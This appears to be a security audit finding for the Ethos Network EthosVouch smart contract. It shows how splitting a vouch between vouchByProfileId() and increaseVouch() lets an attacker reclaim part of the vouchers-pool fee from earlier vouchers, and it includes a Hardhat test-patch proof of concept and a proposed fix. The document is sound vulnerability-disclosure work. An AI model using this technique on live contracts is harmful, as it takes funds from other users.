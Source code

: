 Overt Alabaster Cottonmouth

High

# Attacker can steal considerable portion of fee by vouching in two steps instead of one

## Description & Impact
The function [increaseVouch() calls applyFees() internally](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L440) which in turn [calls _rewardPreviousVouchers()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L697). Here, all existing vouches are proportionally awarded a part of the `vouchersPoolFee` based on the ratio of their vouched amount to the total vouched amount. This **_includes_** the vouchId whose stake amount is being increased.
This can be used to game the system in the following manner:
- Assumption: Entry vouchers pool fee basis points = `10000` (for easy calculation). This effectively means `50%` of the voucher's `msg.value` will be deducted as fee.

- Normal Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob vouches `1000 ETH` for the subject by calling `vouchByProfileId()`.
        - Alice gets `50% of 1000 = 500 ETH` as fee. Alice's balance = `600 ETH`.
        - Bob's balance = `500 ETH`.
        
- Attack Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob (attacker) vouches `1000 ETH` in two steps. 
        - Step1: He calls `vouchByProfileId()` with `200 ETH`.
            - Alice gets `50% of 200 = 100 ETH` as fee. Alice's balance = `200 ETH`.
            - Bob's balance = `100 ETH`
        - Step2: He calls `increaseVouch()` with `800 ETH`.
            - Alice gets `(50% of 800) * 2/3 = 266.67 ETH` as fee. Alice's balance = `466.67`.
            - Bob gets `(50% of 800) * 1/3 = 133.34 ETH` as fee. Bob's balance = `633.34 ETH`.

Bob saved `133.34 ETH` in fee and robbed others of this amount. Note that the above example uses 2 steps for simplicity but Bob can increase the number of steps to enahnce his profit further.

## Proof of Concept
Apply the following patch inside `test/EthosVouch.test.ts` and see it pass when run via `npm run hardhat -- test --grep "should demonstrate fee savings with two-step vouching strategy"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..995ac57 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -131,13 +131,13 @@ describe('EthosVouch', () => {
         EXPECTED_SIGNER.address,
         signatureVerifierAddress,
         contractAddressManagerAddress,
         FEE_PROTOCOL_ACC.address,
         0, // Entry protocol fee basis points
         0, // Entry donation fee basis points
-        0, // Entry vouchers pool fee basis points
+        10000, // Entry vouchers pool fee basis points
         0, // Exit fee basis points
       ]),
     );
 
     await ethosVouchProxy.waitForDeployment();
     const ethosVouchAddress = await ethosVouchProxy.getAddress();
@@ -441,12 +441,58 @@ describe('EthosVouch', () => {
           'Wrong unhealthyResponsePeriod, 2',
         );
       });
     });
 
     describe('vouchByProfileId', () => {
+      it('should demonstrate fee savings with two-step vouching strategy', async () => {
+        const {
+          ethosVouch,
+          PROFILE_CREATOR_0,
+          PROFILE_CREATOR_1,
+          VOUCHER_0,
+          VOUCHER_1,
+          ethosProfile,
+          OWNER,
+        } = await loadFixture(deployFixture);
+
+        // create a profile
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        // Step 1: Naive user vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        const attacker = VOUCHER_1;
+        // Step 2: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('200'),
+        });
+        
+        // Step 3: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).increaseVouch(
+          1,  // Same vouch ID
+          { value: ethers.parseEther('800') }
+        );
+        const initialVouch = await ethosVouch.vouches(0);
+        const attackerVouch = await ethosVouch.vouches(1);
+      
+        // Get final state for two-step attack
+        expect(initialVouch.balance).to.be.lt(ethers.parseEther('600'));
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('500'));
+        console.log("Fee saved = %d", attackerVouch.balance - ethers.parseEther('500'));
+      });
+      
       it('should fail if no profile', async () => {
         const { ethosVouch, VOUCHER_0, ethosProfile, OWNER } = await loadFixture(deployFixture);
 
         await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
         await ethosProfile.connect(VOUCHER_0).createProfile(1);
 

```

## Mitigation 
Change the function signature of `_rewardPreviousVouchers()` to:
```diff
  function _rewardPreviousVouchers(
+   bool excludeAnyVoucherId,    
+   uint256 idToExclude,
    uint256 amount,
    uint256 subjectProfileId
  ) internal returns (uint256 amountDistributed)
```

and that of `applyFees()` to:
```diff
  function applyFees(
+   bool excludeAnyVoucherId,    
+   uint256 idToExclude,
    uint256 amount,
    bool isEntry,
    uint256 subjectProfileId
  ) internal returns (uint256 toDeposit, uint256 totalFees)
```

- `increaseVouch()` needs to call the updated `applyFees()` while passing params `excludeAnyVoucherId = true` and `idToExclude = vouchId`.
- `applyFees()` then calls this updated `_rewardPreviousVouchers()` inside it.
- And lastly, exclude this `idToExclude` inside the two `for` loops of `_rewardPreviousVouchers()` whenever `excludeAnyVoucherId = true`. 
- The calls to `applyFees()` originating from within other functions would need to be modified with `excludeAnyVoucherId = false` and `idToExclude = 0` (any value really).